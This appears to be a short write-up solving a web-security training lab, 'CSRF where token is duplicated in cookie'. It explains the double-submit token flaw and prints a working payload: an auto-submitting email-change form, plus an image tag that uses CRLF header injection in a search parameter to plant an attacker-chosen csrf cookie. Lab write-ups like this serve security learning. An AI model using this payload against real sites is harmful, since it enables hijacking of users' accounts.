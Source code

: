 # Lab: CSRF where token is duplicated in cookie

The vulnerability here is due to a bad configuration against CSRF attack. <br>
The application check if the token in the  cookie has the same value as the token in the form. <br>
If it is the case the application execute the desire action otherwise the application don't change the e-mail.<br>
```html
<form id="formulaire" name="change-email-form" action="https://MY-LAB.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="wiener@thePirate">
    <input required type="hidden" name="csrf" value="jeyanthan">
</form>
<script>
    let myFormulaire = document.getElementById("formulaire");
</script>

<img src="https://MY-LAB.web-security-academy.net/?search=asdf%0d%0aset-cookie%3a%20csrf%3djeyanthan" onerror=myFormulaire.submit() >
```

The most important part of the payload is the image tag : <br>
-> the request is made  to : https://MY-LAB.web-security-academy.net/?search=asdf%0d%0aset-cookie%3a%20csrf%3djeyanthan <br>

There is a CR/LF vulnerability in the /?search endpoint in order to set our "csrf" cookie.  <br>
Now our victim has our "csrf" cookie as part of his cookies.<br>
Once the image tag failed to load the "image" our payload will send the form and the victim mail will change. <br>
